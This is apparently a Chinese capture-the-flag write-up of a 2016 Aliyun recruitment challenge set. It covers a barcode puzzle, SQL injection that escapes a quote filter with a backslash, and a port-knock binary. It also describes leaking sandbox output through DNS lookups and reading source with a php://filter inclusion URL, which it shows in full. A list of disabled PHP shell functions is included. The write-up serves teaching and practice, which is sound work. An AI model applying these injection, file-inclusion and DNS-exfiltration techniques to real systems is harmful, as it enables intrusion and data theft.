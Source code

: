 # Aliyun Yundun Recruitment

## 说明
好久没做题了……偶然在微博上看到的我，心想“MD 比赛题不会做，这种招聘题我总该会做了吧！”以及“招聘题能有几个题，一两个测试一下估计就差不多了吧”的天真的我随手点开了题目……

然后被各种脑洞打的人都成 SB 了。

讲讲题目的话，知识点覆盖全面性肯定是没有的了（毕竟加起来也就七个题），侧重 Web 无可厚非，但 Web 题质量很难说的上是很高吧……嘛，对这类题目要求确实也不能这么高，毕竟目的不一样。另外，界面很丑，作为一个前端工程师，我感觉很崩溃。另外脑洞题也不少，以第七题为标杆：一开始打开页面只有web三个字母……就是说要渗透的话，起码也放点内容上去啊，有关无关的都好 = =||

简单的说就是整套题目不够精致，虽然不是个正式比赛，但对于选手来说题目精致点会更有兴趣。

另外本 writeup 还附赠一个第八题，有兴趣可以解一下。（噗嗤

## 题解

### 1-Barcode
题目只给了一个图。

![start](https://raw.githubusercontent.com/CTF-Mare/my-ctf-writeups/master/2016-08-25-AliyunRecruitment/attachments/1-Barcode/zhaopin.png)

虽然题目下写了熊猫颜色很奇怪，但其实你翻翻微博的话，会发现没反色的版本也被发出来过。所以都没差啦。

做法就是反色后把条形码拿出来。写程序处理的都很厉害，反正我是 PS 的（噗嗤）。说到底这个题要啥自行车啊，PS 上就好啊。PS 后涂涂抹抹，大概就是下面这个样子：

![chuli](https://raw.githubusercontent.com/CTF-Mare/my-ctf-writeups/master/2016-08-25-AliyunRecruitment/attachments/1-Barcode/aliyunzp.png)

[用这个网站](http://www.onlinebarcodereader.com/)解就好了。据某人说用库读不出来（噗嗤

### 2-Login
只有一个登陆界面。查看源代码发现了源代码的注释。

代码如下：

```
include('common.php');
function str_filter($string)
{
    $string = str_replace(' ','',$string);
    $string = str_replace('#','',$string);
    $string = str_replace('*','',$string);
    $string = str_replace("'",'',$string);
    $string = str_replace('"','',$string);
    $string = str_replace(';','',$string);
    $string = str_replace('<','<',$string);
    $string = str_replace('>','>',$string);
    $string = str_replace("{",'',$string);
    $string = str_replace('}','',$string);
    return $string;
}
$username = str_filter($_POST['username']);
$password = str_filter($_POST['password']);
$sql = sprintf("select username from old_driver_users where username='%s' and password ='%s';", $username, $password);
$result=mysql_db_query('old_driver', $sql, $conn);
$row =  mysql_fetch_row($result);
if (empty($row[0]))
{
    exit('username or password wrong!');
}
else
{
    av();
}
```

其中

```sprintf("select username from old_driver_users where username='%s' and password ='%s';", $username, $password)```

这句不要太熟悉……反正就是脱好裤子跟你说来上我吧的那种感觉……但由于上面过滤了一大堆东西，单双引号通通没有了，所以要逃出这个引号闭合来想办法写注入语句。方法也很简单，用```admin\```来当做用户名，这样```\'```就会被转义为原始的引号，使得 SQL 语句变为

```
...where username='admin\' and password='    %s     ';
```


这样我们就可以在 ```%s``` 处构造 SQL 语句了。

我不会 SQL 注入，所以只好请出 sqlmap 帮我做这个事了……由于 sqlmap 注入语句有一定格式要求，所以要另外做一下修饰。tamper 在附件里。

### 3-Portknock

file 一下直接掏出 IDA 分析就好了。附件里有两个主要函数的分析内容。

大概就是要轮流连接五个端口。连好了就给 flag 了。

什么时候 BIN 题都有这么简单就好了（泪

### 4-Sandbox

网页上显示是 Malware sandbox，注释里有系统环境……竟然是 32 位系统，真是日了狗了。

提交上去显示会在几分钟内运行，然后什么消息都没有了。沙盒没有回显，我感觉快要窒息…………

试了试交了个 system wget，服务器上没记录。猜测 system 或者网络方面有所限制。不管 system，先看看能不能穿网络，结果用 gethostbyname 穿顺利穿了出来。由于不会实现 DNS Tunnel，于是就直接 popen 读一下目录，再直接把结果当作域名解析就好了。服务器上跑一个接受 DNS 数据的小脚本就可以了。

具体利用程序在附件……因为不要 shell，感觉这个题就是虎头蛇尾的感觉。有点遗憾。

### 7-Penetration

一开始只有三个字母 web，扫端口测目录均无结果。后来显示内容提示是渗透测试，那估计还是得猜目录，最后用/CVS得到了泄露信息：

```
/index.php/1.1.1.1/Tue Jul 31 05:25:16 2012// D/ColorTestPage//// 
```
拼凑出地址：

```
http://121.42.161.140/dac8dac5f0210825338175d48f0279cb/ColorTestPage/index.php
```

观察页面，发现有一个文件包含的地方。但不能直接包含自身，因此编码后再包含：

```
http://121.42.161.140/dac8dac5f0210825338175d48f0279cb/ColorTestPage/index.php?style=php://filter/read=convert.base64-encode/resource=index.php
```

解码后：

```
[dai@CodeBlaze my-ctf-writeups (master ✗)]$ echo "PD9waHAKLyoKRGF0ZTogMjAxNS0wMi0zMCAxNTo0MzoyNwpBdXRob3I6IGxhb3NpamkKRGVzY3JpcHRpb246IGJXRm5ibVYwT2o5NGREMTFjbTQ2WW5ScGFEbzVOVGczWTJabE5XVTVZMk0yWXpReVptTTNZamxoWXpOaU1tRTNZek0wWXpCbU5EZzJNRFF4CiovCnNlc3Npb25fc2F2ZV9wYXRoKCcvdG1wJyk7CnNlc3Npb25fc3RhcnQoKTsKaWYoaXNzZXQoJF9HRVRbJ3N0eWxlJ10pKQp7CgkkX1NFU1NJT05bJ2xvb2snXT0kX0dFVFsnc3R5bGUnXTsvL2Jyb3dzZSBsb2cKCXJlcXVpcmUoJF9HRVRbJ3N0eWxlJ10pOwp9ZWxzZQp7CglyZXF1aXJlKCdub3JtYWwudHBsJyk7CQp9Cj8+" | base64 -D
<?php
/*
Date: 2015-02-30 15:43:27
Author: laosiji
Description: bWFnbmV0Oj94dD11cm46YnRpaDo5NTg3Y2ZlNWU5Y2M2YzQyZmM3YjlhYzNiMmE3YzM0YzBmNDg2MDQx
*/
session_save_path('/tmp');
session_start();
if(isset($_GET['style']))
{
       	$_SESSION['look']=$_GET['style'];//browse log
       	require($_GET['style']);
}else
{
       	require('normal.tpl');
}
?>%
```

可以看到 session 被保存到了 /tmp 里。很容易就可以考虑到，一个写 php 脚本，一个包含引用就好了……没什么技术含量。phpinfo 和 assert 被禁用了，原因不明，用 dir 直接读文件就好了。一句话也可以。

### 07EX

简要说一下。

```
string(482) "phpinfo,assert,dl,exec,system,passthru,popen,proc_open,pcntl_exec,shell_exec,chmod,set_time_limit,chroot,error_log,ini_set,pfsockopen,syslog,symlink,putenv,chgrp,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,"
```

How to get shell?

It's possible, but it's hard.

Ref: HITCON 2015 Use-After-Flee

有个0-day能用，但搞不出来...

这个题这么出还有点意思...